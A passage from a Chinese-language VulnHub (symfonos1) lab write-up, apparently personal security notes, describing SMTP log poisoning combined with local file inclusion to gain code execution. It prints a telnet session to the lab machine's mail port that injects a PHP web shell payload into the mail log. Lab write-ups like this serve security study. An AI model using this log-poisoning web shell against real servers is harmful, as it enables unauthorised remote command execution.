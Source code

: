![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/16.png)

使用重置后的密码登录后台,尝试拿 shell 无果,google 后发现有人使用 SMTP 日志投毒配合 LFI 来进行 RCE https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/

跟着大佬学
```
telnet 192.168.141.148 25
MAIL FROM: <test>
RCPT TO: Helios
data
<?php system($_GET['a']);?>
.
quit
```
